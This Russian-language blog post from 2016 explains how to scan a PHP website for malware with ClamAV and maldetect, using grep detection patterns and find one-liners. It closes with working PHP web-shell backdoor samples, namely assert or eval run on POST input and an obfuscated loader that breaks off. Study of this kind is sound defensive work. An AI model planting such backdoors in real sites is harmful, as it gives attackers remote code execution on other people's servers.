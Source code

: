 ```yaml
---
title: "PHP: antivirus website check"
date: 2016-07-21T03:02:01+00:00
url: /2016/07/php-antivirus-website-check/
categories:
  - Linux
  - virtualmin

---
```

**Автоматизированное сканирование:**

Базовая установка:

```shell
yum install clamav -y  
cd /root/install  
rm -rf maldetect-*  
wget http://www.rfxn.com/downloads/maldetect-current.tar.gz  
tar xfz maldetect-current.tar.gz  
cd maldetect-*  
./install.sh  
cd ~ && rm -rf /root/install/maldetect-* && rm -rf /etc/cron.daily/maldet  
echo ".avi  
.jpg  
.flv  
.png " > /usr/local/maldetect/ignore\_file\_ext  
```
Сканирование:  
```shell 
freshclam ; maldet -u ; maldet -d ;  
maldet --scan-all /home/  
```

**Ручная проверка** на предмет подозрительных файлов:  
Подозриельность определяеся наличием следующих комбинаций, которые находятся в одной строке файла:  
```shell  
eval.*str_rot13  
eval.*base64_decode  
eval.*gzinflate  
file\_put\_contents.*base64_decode  
base64_encode.*eval  
eval.\*(.\*GLOBAL.*(  
isset.\*(.\*eval.*(  
```  
Однострочники такие:  
```shell 
#  
find /var/www/\*/data/www/\*/wp-content/uploads/ /home/\*/domains/\*/\*/wp-content/uploads/ /home/\*/\*/wp-content/uploads/ -iname "\*.php"  
find /home/ -type f -iname "\*.php" -exec egrep -l 'eval.\*str\_rot13|eval.\*base64\_decode|eval.\*gzinflate|file\_put\_contents.\*base64\_decode|base64\_encode.\*eval|eval.\*\(.\*GLOBAL.\*\(|isset.\*\(.\*eval.\*\(|\w{525,}' {} \;  
#  
```

На что еще можно обратить внимание:  
```shell  
@system("killall  
file\_put\_contents('1.txt  
assert(  
FuncQueueObject  
\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65 # == base64_decode  
\x67\x7a\x69\x6e\x66\x6c\x61\x74\x65 # == gzinflate  
```

Интересные примеры:  
```shell  
<?php $k="ass"."ert"; $k(${"_PO"."ST"} ['pass']);?>

  
<?php ($b4dboy = $_POST['gnm']) &#038;&#038; @preg_replace('/ad/e','@'.str_rot13('riny').'($b4dboy)', 'add'); ?>

  
<?php function OLsy($yzcW){
$code='bas'.'e64_d'.'eco'.'de';
$yzcW=gzinflate($code($yzcW));
 for($i=0;$i<strlen($yzcW);$i++)
 {
$yzcW[$i] = chr(ord($yzcW[$i])-1);
 }
 return $yzcW;
 }eval(OLsy("
...
